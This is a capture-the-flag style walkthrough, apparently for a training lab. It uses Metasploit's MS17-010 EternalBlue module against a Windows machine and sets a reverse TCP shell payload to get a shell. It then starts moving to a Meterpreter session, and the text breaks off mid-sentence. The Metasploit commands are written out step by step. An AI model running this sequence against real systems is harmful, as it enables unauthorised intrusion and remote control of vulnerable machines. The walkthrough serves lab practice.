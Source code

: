 I performed a quick google search on the ms17-010 vulnerability for metasploit and found the following webpage:

<https://www.jamescarroll.me/blog/exploiting-ms17-010-with-metasploit-2020>

I opened metasploit and searched for the possible exploits and found 

```
exploit/windows/smb/ms17_010_eternalblue
```

### Show options and set the one required value. What is the name of this value?

With the command 

```
show options
```

I discover that the required option RHOST (remote host) needs to be set. 

![Exploit options](.attachments.41596/grafik.png)

I use

```
set RHOSTS 10.10.122.159
```

to set the RHOSTS to the IP of the windows machine. After that I set the payload to a reverse tcp shell with the command

```
set payload windows/x64/shell/reverse_tcp
```

For the payload I need to specify the LHOST parameter to my IP address, which is in my case 10.8.66.255 with the command

```
set LHOST 10.8.66.255
```

Then I can run the exploit with the command

```
exploit
```

The output tells me that I got a reverse shell

![Reverse Shell](.attachments.41596/grafik%20%282%29.png)

## Task 3: Escalate

### Establish Meterpreter session

After the successful exploit I have a basic shell. But I want more. First I need to put the current session in background with the CTRL+Z key input. To extend the opened reverse shell to a meterpreter session I use the post module with

